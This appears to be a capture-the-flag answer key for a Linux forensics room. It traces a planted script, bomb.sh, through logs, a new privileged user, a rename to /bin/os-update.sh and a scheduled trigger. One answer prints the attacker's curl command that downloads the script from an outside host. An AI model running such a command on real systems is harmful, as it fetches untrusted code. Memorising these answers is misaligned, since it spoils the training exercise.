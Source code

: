 # Disgruntled

<p align="center">
  <img src={require("./assets/disgruntled.png").default} width="128" />
</p>

### Task 1 Introduction

> Grab a cup of coffee.

No answer needed

### Task 2 Linux Forensics review

> Take a sip of coffee.

No answer needed

### Task 3 Nothing suspicious... So far

> The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

/usr/bin/apt install dokuwiki

> What was the present working directory (PWD) when the previous command was run?

/home/cybert

### Task 4 Let’s see if you did anything bad

> Which user was created after the package from the previous task was installed?

it-admin

> A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

Dec 28 06:27:34

> A script file was opened using the "vi" text editor. What is the name of this file?

bomb.sh

### Task 5 Bomb has been planted. But when and where?

> What is the command used that created the file bomb.sh?

curl 10.10.158.38:8080/bomb.sh --output bomb.sh

> The file was renamed and moved to a different directory. What is the full path of this file now?

/bin/os-update.sh

> When was the file from the previous question last modified? (Format: Month Day HH:MM)

Dec 28 06:29

> What is the name of the file that will get created when the file from the first question executes?

goodbye.txt

### Task 6 Following the fuse

> At what time will the malicious file trigger? (Format: HH:MM AM/PM)

08:00 AM

### Task 7 Conclusion

> I’m kidding, of course! But you did good, kid.

No answer needed
